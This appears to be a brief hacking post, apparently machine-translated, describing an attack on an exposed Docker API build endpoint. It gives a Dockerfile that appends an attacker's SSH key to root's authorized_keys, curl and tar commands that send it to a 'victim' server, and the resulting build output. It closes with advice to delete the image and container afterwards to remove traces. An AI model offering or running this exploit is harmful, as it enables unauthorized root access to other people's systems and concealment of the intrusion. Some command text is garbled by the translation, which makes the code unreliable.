 ## Quick update, I'll write in more detail later..

PS: There are THOUSANDS of other ways to do this .. in my case as well.

So the Docker API server does not have SSH, does not have interpreted languages, has nothing !!)

I solved this by quickly sending a Dockerfile file to the API build

```
FROM <any image>
USER root
ENTRYPOINT echo "PUBLIC-KEY" >> /root/.ssh/authorized_keys
```

Needs this inside a TAR file, which will be sent to the server (then use your imagination)

```bash
$ tar -cvf p4y.tar Dockerfile
$ curl -XPOST -H "content type: application / x-tar" --data-binary @ p4y.tar "http: // victim / compile"

{"stream": "Step 1: FROM some-minimal-image \ n"}
{"stream": "--- \ u003e 214bf35152ea \ n"}
{"stream": "Step 2: user root \ n"}
{"stream": "--- \ u003e Running at 78af75a2b4d7 \ n"}
{"stream": "--- \ u003e 74d106dea791 \ n"}
{"stream": "Removing the intermediate container 78af75a2b4d7 \ n"}
{"stream": "Step 3: ENTRYPOINT echo \" ssh-rsa MY_PUBLIC_KEY \ "\ u003e /root/.ssh/authorized_keys\n"}
{"stream": "--- \ u003e Running on bebcc4a6ba0f \ n"}
{"stream": "--- \ u003e 0470cc164544 \ n"}
{"stream": "Removing the intermediate container bebcc4a6ba0f \ n"}
{"stream": "0470cc164544 successfully built \ n"}
```

Now, just connect the container with the image and then start.

PS: remember to delete the image and the container later;)

Kisses
